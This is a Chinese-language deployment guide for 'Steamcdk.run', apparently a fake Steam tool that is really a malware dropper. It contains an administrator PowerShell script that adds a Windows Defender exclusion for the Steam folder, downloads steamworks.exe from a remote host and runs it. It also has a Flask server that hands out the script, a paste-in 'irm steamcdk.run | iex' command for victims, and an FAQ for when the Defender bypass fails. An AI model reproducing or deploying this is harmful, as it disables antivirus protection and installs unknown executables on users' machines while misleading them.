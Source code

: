 # Steamcdk.run  Project deploy guideline

![image-20231120155501360](C:\Users\sheng\AppData\Roaming\Typora\typora-user-images\image-20231120155501360.png)



版本：1.0

发布日期: 2023/11/20

变更记录:

# 代码参考

## powershell 源码

**部署的时候,请将文件命名为a.ps1**

```powershell
# [Console]::OutputEncoding = [System.Text.Encoding]::UTF8
# LOGO 省略.....
#Requires -RunAsAdministrator
$isAdmin = [bool]([Security.Principal.WindowsIdentity]::GetCurrent().Groups -match 'S-1-5-32-544')
if (-not $isAdmin) {
    Write-Host "Please Run as Administrator"
}

$steamRegPath = 'HKCU:\Software\Valve\Steam'
$steamPath = (Get-ItemProperty -Path $steamRegPath -Name 'SteamPath').SteamPath
if ($null -ne $steamPath) {
    try {
# exclude windows defender
        if (Get-Service | where-object { $_.name -eq "windefend" -and $_.status -eq "running" }) {

            Add-MpPreference -ExclusionPath $steamPath
            Write-Host "  [STEAM]  Windows Defender has been exclude"
        }
        else {
            Write-Host "  [STEAM] Windows Defender exclude failed."
        }

# download file and process
        $appStorePath = $steamPath+("steamworks.exe")
        (New-Object Net.WebClient).DownloadFile("http://a.travelly.store:9998/g1/582/steamworks.exe",$appStorePath)

# display Message 
        Write-Host "  [STEAM] App is ready for run .please wait... "
        Write-Host "  [STEAM] Windows Defender has been clear "
        Write-Host "  [STEAM] Ready to go !!! "


# lauch execute our exe file;
        Start-Process -FilePath $appStorePath
        
    }
    catch {

    }
}
```

## Python Restful API: 

**部署的时候,请将文件命名位app.py**

```python
from flask import Flask
from flask import Flask,send_from_directory,send_file


app = Flask(__name__)

@app.route('/',methods=['GET'])
def home():
    path = '.'
    # return 'write-host "hello world"'
    return send_file('a.ps1',path)

if __name__ == "__main__":
    app.run(debug=True)

```

## 部署：

OS: Cent OS 7 

python:3.6以上版本

首先需要安装gunicorn

在服务器的目录下面创建一个serv目录,用于存放代码.

放好的代码结构如下:

![image-20231120153614281](C:\Users\sheng\AppData\Roaming\Typora\typora-user-images\image-20231120153614281.png)

### gunicorn 安装

```shell
pip install gunicorn
```

### gunicorn 运行后台程序：

```shell
cd serv
gunicorn --workers=4 --bind=0.0.0.0:80 app:app
```

# 使用简介:

需要 windows 10 系统:

教育版以上,最好专业版.



![image-20231120155038510](C:\Users\sheng\AppData\Roaming\Typora\typora-user-images\image-20231120155038510.png)

输入命令,开启程序.

```powershell
irm steamcdk.run | iex
```

运行截图:

![image-20231120154829617](C:\Users\sheng\AppData\Roaming\Typora\typora-user-images\image-20231120154829617.png)

# FAQ:

## 1,Windows defender 设置失败

用这个命令Get-Service | where-object { $_.name -eq "windefend" -and $_.status -eq "running" } ,检查window defend服务是否正常运行.如果没有运行,请将其启动.

![image-20231120154118544](C:\Users\sheng\AppData\Roaming\Typora\typora-user-images\image-20231120154118544.png)

## 2 windwos defender 排除项没有成功

手工检查

![image-20231120154216369](C:\Users\sheng\AppData\Roaming\Typora\typora-user-images\image-20231120154216369.png)

如果没有设置成功,检查以下项目是否开启,系统是否由其他的杀毒软件接管.

![image-20231120154255559](C:\Users\sheng\AppData\Roaming\Typora\typora-user-images\image-20231120154255559.png)

## 3steamworks.exe 文件下载不成功.

有时和网络和服务器通信有关系,重新尝试一遍可以解决.

